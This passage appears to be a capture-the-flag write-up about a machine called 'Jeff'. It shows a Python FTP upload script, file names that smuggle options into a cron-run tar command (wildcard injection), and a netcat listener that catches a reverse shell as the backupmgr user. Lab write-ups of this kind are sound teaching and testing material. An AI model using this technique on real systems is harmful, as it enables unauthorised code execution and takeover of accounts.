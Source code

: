 Reading this [article](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) on wildcar injection, I wrote this simple python script.

```python
from ftplib import FTP
import io
 
ftp = FTP('172.20.0.1')
ftp.login('backupmgr', '************************') 
ftp.set_pasv(False)
ftp.cwd('files')
 
shellfile = 'rev_shell.sh'
wildcard1 = '--checkpoint=1'
wildcard2 = '--checkpoint-action=exec=sh rev_shell.sh'
 
ftp.storlines('STOR ' + shellfile, open(shellfile, 'rb'))
ftp.storlines('STOR ' + wildcard1, open(wildcard1, 'rb'))
ftp.storlines('STOR ' + wildcard2, open(wildcard2, 'rb'))
 
ftp.dir()
ftp.quit()

```

From what I understand, reading jeff's comment in the file with the ftp credentials, it is possible to understand that he is creating a sort of backup system and therefore it si possible to must assume that there is a cronjob that creates and extracts archives repeatedly with the `tar` command (or zip, you have to do some tests). So it is possible to perform a wildacrd injection using files with "malicious" names to make the tar command execute my reverse shell.

I downloaded that script on target machine and I created other two malicious files.

```
www-data@Jeff:/tmp$ echo "" >> "--checkpoint=1"
www-data@Jeff:/tmp$ echo "" > "--checkpoint-action=exec=sh rev_shell.sh"
```

After that, I start a netcat listener on port 4545 on my local machine and I run the python script.

```
www-data@Jeff:/tmp$ python3.7 upload.py
python3.7 upload.py
-rwxr-xr-x    1 1001     1001            2 Jul 25 08:51 --checkpoint-action=exec=sh rev_shell.sh
-rwxr-xr-x    1 1001     1001            2 Jul 25 08:51 --checkpoint=1
-rwxr-xr-x    1 1001     1001           55 Jul 25 08:51 rev_shell.sh
```

Now that I have uploaded all the necessary files to the ftp server, if the hypotheses are correct, all that remains is to wait for the cronjob to be executed and consequently my `rev_shell.sh` file.

```
$ rlwrap nc -lnvp 4545       
listening on [any] 4545 ...
connect to [10.9.15.73] from (UNKNOWN) [10.10.112.1] 42210
/bin/sh: 0: can't access tty; job control turned off
$ whoami
backupmgr
```
